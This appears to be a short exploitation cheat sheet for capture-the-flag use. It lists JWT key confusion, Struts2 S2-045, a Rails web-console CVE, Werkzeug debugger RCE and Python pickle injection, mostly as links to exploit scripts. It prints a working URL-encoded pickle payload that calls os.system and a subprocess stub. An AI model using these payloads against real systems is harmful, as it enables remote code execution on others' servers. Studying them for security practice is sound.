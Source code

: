 # JWT

create token with HS256 + public key (.pem)

[jwt.rb](https://github.com/redirected/tricks/blob/master/jwt.rb)

[link](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

# Apache Struts2 S2-045

[s02-045.txt](https://github.com/redirected/tricks/blob/master/s02-045.txt)

# CVE-2015-3224

[ruby-on-rails-web-console2-rce.rb](https://github.com/0x00-0x00/CVE-2015-3224/blob/master/ruby-on-rails-web-console2-rce.rb)

[CVE-2015-3224](https://github.com/redirected/tricks/blob/master/CVE-2015-3224)

# Werkzeug DEBUG

[Werkzeug RCE](https://blog.keigher.ca/2014/12/remote-code-execution-on-misconfigured.html)

import subprocess; subprocess.call(["payload"]);

# Unickle
[Pickle python ijection](http://xhyumiracle.com/python-pickle-injection/)

'c__builtin__%0Aeval%0Ap1%0A(S"os.system(\"/usr/local/bin/score%20a6c466e4-f08a-4954-b6d9-ef2365cba8c6")"%0Ap2%0Atp3%0ARp4%0A.%0A'
